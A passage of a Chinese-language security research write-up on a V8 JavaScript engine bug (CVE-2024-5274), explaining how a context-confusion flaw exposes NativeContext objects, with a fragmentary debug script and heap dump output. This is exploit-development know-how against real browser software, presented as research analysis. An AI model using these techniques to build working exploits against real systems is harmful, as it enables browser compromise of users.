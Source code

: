 这个`JSGlobalObject`到底从何而来？

答案是他来自于[NativeContext](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=704)，原来由于我们跳过了一层Function Context，我们load到了预期Context的更外面一层，而这一层的Context就是`NativeContext`。

我们稍微修改一下脚本，dump出`NativeContext`中的所有对象:

```javascript
let o0, o1, o2, o3, ...
function f1() {
  function hax() {
    %DebugPrint(o0);
    %DebugPrint(o1);
    %DebugPrint(o2);
    // ...
  }
// ...
```

这些对象对应的源码在[这里](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=44)，我们dump出的[结果](https://github.com/DarkNavySecurity/PoC/blob/main/CVE-2024-5274/native_context_objs.txt)也已公开。

### NativeContext的玩法

至此我们可以任意地访问`NativeContext`中的对象，里面有许多在正常JavaScript执行过程中无法获取到的对象。例如我们可以直接访问到一个double类型的array中的`FixedDoubleArray`（实际存储元素的结构）。

```C
// o155 in slot 157
DebugPrint: 0x272f000d1ba1: [FixedDoubleArray] in OldSpace
 - map: 0x272f0000090d <Map(FIXED_DOUBLE_ARRAY_TYPE)>
 - length: 64
        0-63: 0
0x272f0000090d: [Map] in ReadOnlySpace
 - type: FIXED_DOUBLE_ARRAY_TYPE
 - instance size: variable
 - elements kind: HOLEY_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x272f00000251 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x272f00000295 <DescriptorArray[0]>
 - prototype: 0x272f00000235 <null>
 - constructor: 0x272f00000235 <null>
 - dependent code: 0x272f00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

然而，若我们试图去使用这个类型，会发生crash。
